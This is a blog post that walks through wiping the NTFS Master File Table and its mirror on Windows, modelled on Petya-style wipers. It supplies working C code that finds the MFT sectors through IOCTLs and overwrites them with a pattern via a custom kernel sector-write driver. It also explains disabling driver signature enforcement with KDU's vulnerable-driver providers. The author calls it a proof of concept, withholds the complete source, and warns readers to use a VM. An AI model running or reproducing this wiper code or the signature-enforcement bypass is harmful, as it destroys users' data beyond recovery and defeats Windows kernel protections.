










Disclaimer
This article is not meant to be a tutorial. Do not replicate actions shown here on real hardware! Only if you both know what you're doing and really understand it and that you're in a Virtual Machine.
I, fxrstor, am not at fault for anything you do with this article. You are 100% to blame if something occurs.
Introduction
The MFT, also known as the Master File Table, is a key part of the NTFS filesystem - it is a table of every file on the filesystem, meaning if it is somehow corrupted or encrypted, then file recovery is potentially not possible. Luckily, there is a mirror (called the MFT Mirror), which is used if the original MFT is not accessible, stored at 2 different physical places on the disk.
Petya is a known example of a malware strain that does this, even with bootrec /fixmbr to remove the MBR Locker payload, you cannot access/boot into Windows due to the missing MFT.
Locating MFT and retrieving its size via IOCTLs
MFT is spread across multiple sectors potentially hundreds of them. It is not contigious either which means it's not sequential and continous across sectors. We shall use Windows API to actually get MFT's location. It also provides us with the size of MFT. On top of that, we will also locate MFT mirror, which is like a small backup of MFT. Conventionally, It stores 4 records so it's just a copy of beginning of the MFT.
Enumerating NTFS disks on the system
To enumerate all the disks, first we need to get all the letters of the disks connected via GetLogicalDrives() function of WinAPI. It returns a DWORD (unsigned long, 32 bit integer). Each bit corresponds to one driver letter. For example, bit 0 means A: drive, bit 1 means B:, bit 2 means C: and so on. If the bit is 1, that drive exists; if it's 0, it doesn't exist. Then we can use a for loop as shown below to enumerate the letters:
for (char letter = 'A'; letter <= 'Z'; ++letter) {
if (!(drives & (1u << (letter - 'A')))) continue;
}letter - 'A' calculates the bit index for that letter, for example:
'A' - 'A' = 0 -> checks bit 0
'B' - 'A' = 1 -> checks bit 1
'C' - 'A' = 2 -> checks bit 2
and so on.
1u << (letter - 'A') creates a mask to check that bit.
Example: For 'C', 1u << 2 -> 0b100
drives & mask checks if the bit is set.
If 0 -> drive doesn't exist -> skip with continue;
If 1 -> drive exists -> process it.
Okay, this was the only tricky part. Once we know a drive letter exists, we build its path and use GetDriveTypeA() to ensure it is not DRIVE_UNKNOWN (type cannot be determined) or DRIVE_NO_ROOT_DIR (root directory doesn't exist). Next, we call GetVolumeInformationA() to get the filesystem name. If the filesystem is NTFS, we construct a volume path and open it as a read-only device using CreateFileW() function (administrative privileges required). By using DeviceIoControl() with the FSCTL_GET_NTFS_VOLUME_DATA IOCTL, we can get a NTFS_VOLUME_DATA_BUFFER structure that contains all the information we need about the NTFS volume.
Let's look at what the NTFS_VOLUME_DATA_BUFFER structure contains related to MFT:
| Member | Meaning |
|---|---|
| BytesPerSector | Number of bytes per physical sector on the volume. |
| BytesPerCluster | Number of bytes per cluster (allocation unit). |
| BytesPerFileRecordSegment | Size of each File Record Segment in the MFT. |
| MftStartLcn | Logical Cluster Number (LCN) where the MFT starts. |
| Mft2StartLcn | LCN of the MFT mirror (backup copy, usually 4 records long). |
| MftValidDataLength | Actual size of the MFT in bytes. |
Try printing their values to console like this:
DWORD drives = GetLogicalDrives();
if (drives == 0) {
printf("GetLogicalDrives failed");
return 1;
}
printf("Scanning logical drives A:..Z: for NTFS volumes\n\n");
for (char letter = 'A'; letter <= 'Z'; ++letter) {
if (!(drives & (1u << (letter - 'A')))) continue;
char rootPath[8] = { 0 };
snprintf(rootPath, sizeof(rootPath), "%c:\\", letter);
UINT driveType = GetDriveTypeA(rootPath);
if (driveType == DRIVE_NO_ROOT_DIR || driveType == DRIVE_UNKNOWN) continue;
char fsName[MAX_PATH + 1] = { 0 };
if (!GetVolumeInformationA(rootPath, NULL, 0, NULL, NULL, NULL, fsName, sizeof(fsName)))
continue; // skip if cannot get info
if (_stricmp(fsName, "NTFS") != 0)
continue; // skip if not NTFS
char volDevicePath[16];
snprintf(volDevicePath, sizeof(volDevicePath), "\\\\.\\%c:", letter);
printf("Volume %c: (path %s) -> NTFS\n", letter, volDevicePath);
HANDLE hVolume = CreateFileA(volDevicePath, GENERIC_READ, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
if (hVolume == INVALID_HANDLE_VALUE) {
printf("CreateFile for volume failed\n");
continue;
}
NTFS_VOLUME_DATA_BUFFER nvdb;
DWORD bytesReturned = 0;
if (!DeviceIoControl(hVolume, FSCTL_GET_NTFS_VOLUME_DATA, NULL, 0, &nvdb, sizeof(nvdb), &bytesReturned, NULL)) {
printf("FSCTL_GET_NTFS_VOLUME_DATA failed\n");
CloseHandle(hVolume);
continue;
}
STORAGE_DEVICE_NUMBER sdn = { 0 };
BOOL sdnOk = DeviceIoControl(hVolume, IOCTL_STORAGE_GET_DEVICE_NUMBER, NULL, 0, &sdn, sizeof(STORAGE_DEVICE_NUMBER), &bytesReturned, NULL);
if (!sdnOk || sdn.DeviceType != FILE_DEVICE_DISK) {
printf("Failed to get storage device number\n");
CloseHandle(hVolume);
continue;
}
LONGLONG mftVolumeByte = nvdb.MftStartLcn.QuadPart * nvdb.BytesPerCluster;
LONGLONG mftVolumeRelativeSector = mftVolumeByte / nvdb.BytesPerSector;
LONGLONG mftSizeInSectors = nvdb.MftValidDataLength.QuadPart / nvdb.BytesPerSector;
LONGLONG mftMirrorVolumeByte = nvdb.Mft2StartLcn.QuadPart * nvdb.BytesPerCluster;
LONGLONG mftMirrorVolumeRelativeSector = mftMirrorVolumeByte / nvdb.BytesPerSector;
DWORD mftMirrorSizeConventional = nvdb.BytesPerFileRecordSegment * 4;
DWORD mftMirrorSizeInSectors = mftMirrorSizeConventional / nvdb.BytesPerSector;
printf(" BytesPerSector: %lu, BytesPerCluster: %lu\n", nvdb.BytesPerSector, nvdb.BytesPerCluster);
printf(" BytesPerFileRecordSegment: %lu\n", nvdb.BytesPerFileRecordSegment);
printf(" MFT LCN: %lld -> volume byte offset: %lld\n", nvdb.MftStartLcn.QuadPart, mftVolumeByte);
printf(" MFT volume-relative sector: %lld sector\n", mftVolumeRelativeSector);
printf(" MFT size (MftValidDataLength): %lld bytes\n", nvdb.MftValidDataLength.QuadPart);
printf(" MFT size in number of sectors: %lld sectors\n", mftSizeInSectors);
printf(" MFTMirr LCN: %lld -> volume byte offset: %llu\n", nvdb.Mft2StartLcn.QuadPart, mftMirrorVolumeByte);
printf(" MFTMirr volume-relative sector: %lld sector\n", mftMirrorVolumeRelativeSector);
printf(" MFTMirr conventional size: %lu bytes (4 * fileRecordSize)\n", mftMirrorSizeConventional);
printf(" MFTMirr conventional size in sectors: %lu sectors\n", mftMirrorSizeInSectors);
CloseHandle(hVolume);
printf("\n");
}Running the above code, we get the following output:
Scanning logical drives A:..Z: for NTFS volumes
Volume C: (path \\.\C:) -> NTFS
BytesPerSector: 512, BytesPerCluster: 4096
BytesPerFileRecordSegment: 1024
MFT LCN: 786432 -> volume byte offset: 3221225472
MFT volume-relative sector: 6291456 sector
MFT size (MftValidDataLength): 1550581760 bytes
MFT size in number of sectors: 3028480 sectors
MFTMirr LCN: 2 -> volume byte offset: 8192
MFTMirr volume-relative sector: 16 sector
MFTMirr conventional size: 4096 bytes (4 * fileRecordSize)
MFTMirr conventional size in sectors: 8 sectors
Volume D: (path \\.\D:) -> NTFS
BytesPerSector: 512, BytesPerCluster: 4096
BytesPerFileRecordSegment: 1024
MFT LCN: 786432 -> volume byte offset: 3221225472
MFT volume-relative sector: 6291456 sector
MFT size (MftValidDataLength): 363331584 bytes
MFT size in number of sectors: 709632 sectors
MFTMirr LCN: 2 -> volume byte offset: 8192
MFTMirr volume-relative sector: 16 sector
MFTMirr conventional size: 4096 bytes (4 * fileRecordSize)
MFTMirr conventional size in sectors: 8 sectors
Volume E: (path \\.\E:) -> NTFS
BytesPerSector: 512, BytesPerCluster: 4096
BytesPerFileRecordSegment: 1024
MFT LCN: 786432 -> volume byte offset: 3221225472
MFT volume-relative sector: 6291456 sector
MFT size (MftValidDataLength): 2883584 bytes
MFT size in number of sectors: 5632 sectors
MFTMirr LCN: 2 -> volume byte offset: 8192
MFTMirr volume-relative sector: 16 sector
MFTMirr conventional size: 4096 bytes (4 * fileRecordSize)
MFTMirr conventional size in sectors: 8 sectorsThat looks great. MFT LCN is the location of MFT, LCN meaning Logical Cluster Number (cluster index inside that volume). To calculate the volume byte offset, we just multiply the LCN with BytesPerCluster. If we divide the volume byte offset with bytes per sector, we get the volume relative sector index of the MFT. One thing to note is that we cannot get the MFT mirror size very easily hence we're assuming it 4 records long which is quite common.
We see the below thing if we open those sectors in our hex editor (HxD)


As expected both the sectors are identical as it should be. Should we trash those sectors? Yes! why not? And that is exactly what we're going to do. Unlike the previous method which we used, which wiped a single sector from MBR, in this method, we're going to utilize a kernel driver to do the task for us. I have developed a driver that allows us to arbitrarily read and write sectors a while ago. It can be found at https://github.com/fxrstor/SectorIO.
How does SectorIO work?
We aren't going to deep into its internals but the logic is fairly simple.
It maintains a complete list of storage devices in the system and can directly read or write to individual sectors. It asks Windows for all disk, partition, volume, and CD-ROM interfaces to build the list of devices. It uses IoGetDeviceInterfaces() to get symbolic links for each interface, then converts these links into device objects with IoGetDeviceObjectPointer(). For each device, it gathers its information like disk size, partitions, sector size, etc. using standard IOCTLs (it's like a query to Windows asking for information or to do some task) like IOCTL_STORAGE_GET_DEVICE_NUMBER, IOCTL_DISK_GET_PARTITION_INFO_EX, and IOCTL_DISK_GET_DRIVE_GEOMETRY_EX. These details are stored in a list of storage objects. When performing I/O, the driver creates an IRP (I/O Request Packet) - basically a message telling the storage device what to do. This IRP is sent down the device stack, which is a chain of drivers that handle requests for a device. Once the operation completes, the driver is notified through a completion routine and returns the result.
The MFT Wiping Part
Now comes the most awaited part, how do we actually wipe or modify the MFT? Well we just install the driver and send a write IOCTL to it zero data so it zeroes out the sectors. There's a problem, you can't just install any random driver from the internet or even your own built ones. You need to get it signed by Microsoft who will check and verify your code if it's not malicious and also charge a ton of money. This is the only way corporations can have their drivers. Corporations are obligated to get their drivers signed but not individuals ;). There are 2 workarounds: 1. Bypass/disable driver signature enforcement (DSE) 2. Enable test-signing mode. The second option is a bit uninteresting as it requires you to set some BCD flags, reboot and enter into a "test mode Windows" with a watermark, that is definitely something which we don't want. The first option is basically to just bypass the checks Windows does when loading a driver. There can be a few ways to do this, one of them is to use a vulnerable driver that allows arbitrary kernel memory read/write. You can use such drivers to load your drivers (a bit oversimplified, this is a lot complicated). For the sake of simplicity, we will not dive deep into how it really works under the hood. We will use a software called Kernel Driver Utility (KDU) which is able to set the DSE value to 0 (false, disabled) by using a lot of vulnerable drivers (you get to select which one to use). This way we can load our driver without any hassle.
We have compiled KDU and SectorIO from their source. In KDU, we need kdu.exe output from Hamakaze and drv64.dll from Tanikaze project. We can disable DSE by the command shown in the image.

We selected the provider 54 (you can select anything but just make sure that it's not blacklisted). Provider basically means which vulnerable driver to use. KDU shows that the DSE value was 6 and now it set it to 0. We need to set back the value to 6 once we're done starting our driver otherwise Patch Guard will bug check the system (i.e. BSOD). Now we can start our driver usingsc create command.

Let's write some code to wipe MFT and the MFT mirror. We'll create a function called WipeSectors and the code goes like this:
void WipeSectors(HANDLE hDevice, BOOLEAN isRawDiskObject, ULONG diskIndex, ULONG partitionNumber, ULONGLONG sectorNumber, ULONG sectorSize, ULONG nSectors) {
UCHAR* writeBuffer = (UCHAR*)malloc(nSectors * sectorSize);
if (!writeBuffer) {
printf("Error: Out of memory for wipe buffer\n");
return;
}
STORAGE_LOCATION writeLoc = { 0 };
writeLoc.isRawDiskObject = isRawDiskObject;
writeLoc.diskIndex = diskIndex;
writeLoc.partitionNumber = partitionNumber;
writeLoc.sectorNumber = sectorNumber;
for (size_t i = 0; i < (size_t)nSectors * sectorSize; i++) {
switch (i & 3) {
case 0: writeBuffer[i] = 0xAB; break;
case 1: writeBuffer[i] = 0xCD; break;
case 2: writeBuffer[i] = 0xEF; break;
default: writeBuffer[i] = 0x01; break;
}
}
DWORD bytesReturned = 0;
BOOL ok = DeviceIoControl(hDevice, IOCTL_SECTOR_WRITE, &writeLoc, sizeof(writeLoc), writeBuffer, nSectors * sectorSize, &bytesReturned, NULL);
if (!ok) {
printf("IOCTL_SECTOR_WRITE failed\n");
free(writeBuffer);
return;
}
printf("Wiped %u sectors (from %llu to %llu) with pattern.\n", nSectors, sectorNumber, (unsigned long long)(sectorNumber + nSectors - 1));
free(writeBuffer);
}You can look at example.cpp of SectorIO to see how it can be used.
We can use the WipeSectors function with the location of MFT and the mirror.
printf("Wiping MFT starting at sector %lld (%lld sectors)...\n", mftVolumeRelativeSector, mftSizeInSectors);
WipeSectors(hDevice, FALSE, sdn.DeviceNumber, sdn.PartitionNumber, mftVolumeRelativeSector, nvdb.BytesPerSector, (ULONG)mftSizeInSectors);
printf("Wiping MFT Mirror starting at sector %lld (%lu sectors)...\n", mftMirrorVolumeRelativeSector, mftMirrorSizeInSectors);
WipeSectors(hDevice, FALSE, sdn.DeviceNumber, sdn.PartitionNumber, mftMirrorVolumeRelativeSector, nvdb.BytesPerSector, mftMirrorSizeInSectors);Be sure to open a handle to driver before you make any IOCTLs like this:
HANDLE hDevice = CreateFileA("\\\\.\\SectorIO", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
if (hDevice == INVALID_HANDLE_VALUE) {
printf("Cannot open \\\\.\\SectorIO\n");
return 1;
}
printf("Opened \\\\.\\SectorIO successfully.\n\n");Running our code
Once we have everything ready, we can compile our code and check if it works.

Let's confirm this in our hex editor


That looks good but soon after the wiping procedure, we start to get weird errors like:


We also get a sweet bug check but I don't really know the cause

Can there be other ways?
Sure there can be. One way to is manually parse the NTFS BPB on the sector 0 of a NTFS drive. This way you can get the required things like MFT and MFT mirror locations and their sizes. To wipe, you can also write a custom bootloader/MBR to wipe the sectors from boot. You can store the MFT location on sector 1 and read it on boot.
Conclusion
This was more of a proof-of-concept: No, the full source code will not be available, if you really want to do this, you should be able to recreate the source code from fragments.
Thanks for reading! Additionally, I may be wrong about something (unlikely) - i.e. the wiping or something else. If this is the case and you know the right answer / what should be done instead, please do not hesitate to reach out to me - via an issue on the blog repo of course :)